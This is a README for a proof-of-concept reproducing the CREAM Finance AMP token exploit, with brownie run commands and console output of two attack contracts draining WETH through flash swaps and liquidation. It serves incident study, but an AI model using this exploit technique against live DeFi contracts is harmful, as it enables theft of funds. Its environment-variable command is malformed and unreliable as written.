 # CREAM PoC

## How to run

Install brownie first

Set up the environment variable for $ARCHIVENODE_TOKEN

```
export $ARCHIVENODE_TOKEN = xxxxx
sh start_archive.sh

then 

sh run.sh
```

```
Running 'scripts/attack.py::main'...
------ Exploit 1: using DEX obtain ETH to repay flash swap ------------
------> Step 1: deploy attack contract and register `AmpTokensRecipient` in erc1820
Transaction sent: 0x6e1bedb73772048183ea634e527e009ccfa3e184413f7195b151149fbdc58207
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 0
  Luck.constructor confirmed - Block: 13125192   Gas used: 911645 (13.56%)
  Luck deployed at: 0x9c214F0caC1fdAb0C93EA8e6636c2499F10b6036

🧛 before:  balance is 0.0 ETH
------> Step 2: call good_luck() to launch an attack
Transaction sent: 0x627dd0058ee665d099b009561f945a178276e3a2e1261de2bc3ed380cacc54f0
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 1
  Luck.good_luck confirmed - Block: 13125193   Gas used: 988358 (14.70%)

🧛 After:  balance is 130.77899048519276 WETH
🧛 After:  profit is 130.77899048519276 WETH
------ Exploit 2: using Liquidation obtain ETH to repay flash swap ------------
------> Step 1: deploy attack contract and register `AmpTokensRecipient` in erc1820
Transaction sent: 0x72e155a0a0e20f2e5d4ea2ec01649edbdfec16221764b104a9819d09da445fd2
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 0
  Luck2.constructor confirmed - Block: 13125192   Gas used: 1216758 (18.10%)
  Luck2 deployed at: 0x532AB34D5a2Ef27FDCf485e2e6fbAa6371e48138

🧛 before:  balance is 0.0 ETH
------> Step 2: call good_luck() to launch an attack
Transaction sent: 0x3a0c24d208738c9d21bc75aaa607b10e2e02adab2cd8021ccc280e61471fbf5e
  Gas price: 0.0 gwei   Gas limit: 6721975   Nonce: 1
  Luck2.good_luck confirmed - Block: 13125193   Gas used: 1564748 (23.28%)

🧛 After:  balance is 75.99349268338645 WETH
🧛 After:  profit is 224.9846920640469 WETH
```

In the PoC, we demostrate two different methods to obtain the profits.

* Method 1: swapping the whole AMP tokens in DEX
* Method 2: 1/2 AMP for Liquidation and 1/2 AMP for swapping in DEX


## link 

* https://mp.weixin.qq.com/s/ht2YskJ9i3yCgY-PLC6vKw

* https://medium.com/cream-finance/c-r-e-a-m-finance-post-mortem-amp-exploit-6ceb20a630c5

